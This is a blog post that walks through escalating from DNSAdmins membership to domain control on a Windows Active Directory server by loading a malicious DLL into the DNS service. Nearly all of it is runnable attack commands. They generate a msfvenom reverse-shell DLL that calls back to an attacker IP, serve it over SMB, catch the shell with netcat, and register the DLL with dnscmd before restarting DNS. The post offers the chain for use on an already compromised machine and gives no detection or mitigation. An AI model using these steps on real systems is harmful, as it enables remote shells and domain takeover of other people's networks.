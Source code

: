 ```yaml
---
title: Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection
layout: post
author: Abhinav Gyawali
date: 2019-12-21
tags: privesc, windows, dnsadmin

---
```


# Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection

Say you have compromised a Windows machine that provides Active Directory Directory Services to its users and have gained access as a user who is a part of the DNSAdmins group, you can use this method to privilege escalate.

Here, what we're doing is:

1. Making a dll payload that sends a reverse shell back to our machine with msfvenom.
2. Serving it using SMB Server to make it available to the Windows machine. (You can use any other way to transfer it to the remote machine, but be careful, it might get nuked by the Anti-Virus.) And, we will also setup a netcat listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

Checking if your user is a part of the DNSAdmins group:

```powershell
whoami /all
```

Now, on to the fun part:

#making the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.211.55.13 LPORT=4444 --platform=windows -f dll > ~/windows/privesc/plugin.dll
```

Here, because the Windows machine is of 64 bit achitechture, we're using x64 payload.

#serving the file using SMB Server using smbserver.py, that comes with Python3-Impacket.

```powershell
cd /usr/share/doc/python3-impacket/examples
./smbserver.py SHARE ~/windows/privesc/
```

In another terminal tab, set up a netcat listener to catch the reverse shell:

```powershell
nc -nvlp 4444
```

## Now, in the compromised Windows machine

##### Importing the plugin:

```powershell
dnscmd.exe myserver.local /config /serverlevelplugindll \\10.211.55.13\share\plugin.dll
```

##### Restarting the service:

```powershell
sc.exe stop dns
sc.exe start dns
```

Now, go back and check the netcat listener, you should have a reverse shell.

You're Welcome!

